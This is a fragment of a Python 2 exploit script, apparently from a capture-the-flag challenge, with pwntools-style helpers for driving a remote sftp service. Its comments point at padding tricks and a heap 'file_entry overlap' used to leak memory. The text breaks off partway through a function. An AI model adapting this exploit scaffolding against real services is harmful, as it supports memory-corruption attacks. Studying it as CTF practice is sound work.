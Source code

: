 ```python

def put(path, value):
	buf = "put %s" % path
	buf = buf.ljust(8201) #original length. That's how I can avoid sending "\n" w/o time
	p.send(buf)
	p.send(str(len(value)).ljust(15))
	p.send(value)
	print p.recvuntil("sftp> ")
        

def get(path):
	cmd = "get %s" % path
	p.sendline(cmd)
	print "Size received:"
	print p.recvuntil("\n")	#until the size
	print "Rest received:"
	print p.recvuntil("sftp> ")

def get_leak(path):
	cmd = "get %s" % path
	p.sendline(cmd)
	b = p.recvuntil("sftp> ")
	return b

def pwd():
	p.sendline("pwd")
	print p.recvuntil("sftp> ")

def cd(path):
	p.sendline("cd %s" % path)
	print p.recvuntil("sftp> ")

def ls(path = ""):
	if path == "":
		p.sendline("ls")
	else:
		p.sendline("ls %s" % path)
	print p.recvuntil("sftp> ")

def ls_get(path = ""):
	if path == "":
		p.sendline("ls")
	else:
		p.sendline("ls %s" % path)
	b = p.recvuntil("sftp> ")
	return b


def ls_leak(pattern):
	p.sendline("ls")
	b = p.recvuntil("sftp> ")
	if pattern in b:
		print "Data file_entry overlap achieved!!!!!!"
		return 1
	else:
		#print "ls return normal."
		return 0
	
def mkdir(path):
	p.sendline("mkdir %s" % path)
	print p.recvuntil("sftp> ")

def rm(path):
```